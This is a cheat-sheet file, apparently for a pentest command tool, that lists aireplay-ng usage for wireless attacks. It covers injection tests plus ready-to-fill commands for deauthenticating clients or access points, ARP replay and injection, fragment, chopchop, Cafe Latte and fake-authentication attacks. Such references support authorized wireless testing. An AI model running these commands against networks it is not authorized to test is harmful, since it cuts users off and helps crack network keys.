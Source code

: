 # aireplay-ng
% wifi, aireplay-ng
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```
generate wifi traffic. The device must be set to monitor mode and channel must be set.
```

## _repo
```
```

## _doc
```
https://www.aircrack-ng.org/doku.php?id=aireplay-ng
```

## _install
```
```

## Injection test
```bash
sudo aireplay-ng --test <wlan_mon_interface|wmon> 
```

## Injection test essid
```bash
sudo aireplay-ng --test -e <essid> <wlan_mon_interface|wmon> 
```

## Injection test essid
```bash
sudo aireplay-ng --test -e <essid> -a <bssid> <wlan_mon_interface|wmon> 
```


## deauth - station
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && 
sudo aireplay-ng --deauth <count|5> -a <bssid> -c <wlan_station_mac> <wlan_mon_interface|wmon>
```

## deauth - bssid
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && 
sudo aireplay-ng --deauth <count|5> -a <bssid> <wlan_mon_interface|wmon>
```

## ARP capture / replay attack
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && 
sudo aireplay-ng --arpreplay -b <bssid> -h <wlan_station_mac> <wlan_mon_interface|wmon>
```

## fragment attack
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng --fragment -b <bssid> -h <wlan_station_mac> <wlan_mon_interface|wmon>
```

## KoreK chopchop attack
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng --chopchop -b <bssid> -h <wlan_station_mac> <wlan_mon_interface|wmon>
```

## ARP injection
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng --interactive -r <forged_arp_fle>.cap -h <bssid> <wlan_mon_interface|wmon>
```

## Cafe latte attack
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng -6 -D -b <bssid> -h <wlan_station_mac> <wlan_mon_interface|wmon>
```

## fake auth
```bash
sudo aireplay-ng --fakeauth 1000 -o 1 -q 5 -e <ssid> -a <bssid> -h <current_mac> <wlan_mon_interface|wmon>
```